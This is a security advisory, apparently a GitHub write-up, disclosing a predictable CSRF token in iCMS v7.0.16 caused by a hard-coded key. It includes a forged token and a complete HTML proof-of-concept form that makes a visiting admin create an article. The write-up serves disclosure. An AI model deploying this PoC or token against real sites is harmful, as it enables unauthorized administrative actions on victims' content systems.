 ## Global CSRF Vulnerability Caused by csrf_token can be predicted in iCMS v7.0.16

The "CSRF_TOKEN"  param has been set when I try to find some CSRF vuln in the iCMS v7.0.16, but it is finally turned out to be a "fake CSRF_TOKEN" after I audit source code. we can calculate the csrf_token by the "iPHP_KEY" hard coded in the source code.

### location

The calculation logic of csrf_token is located in：

![](pictures/cve9.png)

it is based the value of "key" in the line 385, and the "key" is calculated by the value of "iPHP_KEY", the "iPHP_KEY" is hard coded in the source code. like：

![](pictures/cve10.png)

And then we can see the "CSRF_TOKEN" check logic in here:

![](pictures/cve11.png)

if the time is in the scope, and the values are equal, the check will be fine. So the problem is the "csrf_token" is hard coded in the source code, but not binding with the Identity，and the default expiration time("iPHP_COOKIE_TIME") is too long (as the picture show is 31536000 seconds). if someone builds a website with default configuration, the csrf_token can be fully forged.
 
### proof

we can just use the "authcode" function to create a "csrf_token", here is : 9041868bvetZwR1LmSKxbAKQMzFoR6mwPIZzKQA8SVCJiuwTgSqofazrzNTgVilHb1s8CJI1dK6Y7cJfayPMQO-NYT-9ClZ_lLl3y0Q

and then we make a poc for csrf to add an article ,like:

```
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://192.168.64.2/iCMS-7.0.16/admincp.php?app=article&do=save&frame=iPHP&CSRF_TOKEN=9041868bvetZwR1LmSKxbAKQMzFoR6mwPIZzKQA8SVCJiuwTgSqofazrzNTgVilHb1s8CJI1dK6Y7cJfayPMQO-NYT-9ClZ_lLl3y0Q" method="POST">
      <input type="hidden" name="&#95;cid" value="" />
      <input type="hidden" name="&#95;scid" value="" />
      <input type="hidden" name="&#95;tags" value="" />
      <input type="hidden" name="&#95;pid" value="" />
      <input type="hidden" name="&#95;data&#95;id" value="" />
      <input type="hidden" name="article&#95;id" value="0" />
      <input type="hidden" name="userid" value="1" />
      <input type="hidden" name="ucid" value="" />
      <input type="hidden" name="postype" value="1" />
      <input type="hidden" name="REFERER" value="http&#58;&#47;&#47;192&#46;168&#46;64&#46;2&#47;iCMS&#45;7&#46;0&#46;16&#47;admincp&#46;php&#63;app&#61;article&amp;do&#61;trash" />
      <input type="hidden" name="chapter" value="" />
      <input type="hidden" name="markdown" value="0" />
      <input type="hidden" name="cid" value="4" />
      <input type="hidden" name="status" value="1" />
      <input type="hidden" name="scid&#91;&#93;" value="4" />
      <input type="hidden" name="pid&#91;&#93;" value="0" />
      <input type="hidden" name="title" value="fasdhfas" />
      <input type="hidden" name="stitle" value="fasdfa" />
      <input type="hidden" name="source" value="fads" />
      <input type="hidden" name="author" value="fs" />
      <input type="hidden" name="editor" value="iCMS" />
      <input type="hidden" name="pic" value="" />
      <input type="hidden" name="mpic" value="" />
      <input type="hidden" name="spic" value="" />
      <input type="hidden" name="keywords" value="fasdf" />
      <input type="hidden" name="tags" value="" />
      <input type="hidden" name="description" value="dfasdfasd" />
      <input type="hidden" name="data&#95;id" value="" />
      <input type="hidden" name="subtitle" value="fasd" />
      <input type="hidden" name="autopic" value="1" />
      <input type="hidden" name="body&#91;&#93;" value="&lt;p&gt;fadsfasd&lt;&#47;p&gt;" />
      <input type="hidden" name="pubdate" value="2021&#45;01&#45;24&#32;16&#58;05&#58;50" />
      <input type="hidden" name="sortnum" value="1611475550" />
      <input type="hidden" name="weight" value="1611475550" />
      <input type="hidden" name="hits" value="0" />
      <input type="hidden" name="hits&#95;today" value="0" />
      <input type="hidden" name="hits&#95;yday" value="0" />
      <input type="hidden" name="hits&#95;week" value="0" />
      <input type="hidden" name="hits&#95;month" value="0" />
      <input type="hidden" name="favorite" value="0" />
      <input type="hidden" name="comments" value="0" />
      <input type="hidden" name="good" value="0" />
      <input type="hidden" name="bad" value="0" />
      <input type="hidden" name="tpl" value="" />
      <input type="hidden" name="clink" value="" />
      <input type="hidden" name="url" value="" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```

and take this in my vps website , the article will be created when the user click the website in my vps, like :

![](pictures/cve12.png)

This is a global problem, the "csrf_token" is not fully protective here and many operations will involve csrf vulnerabilities .


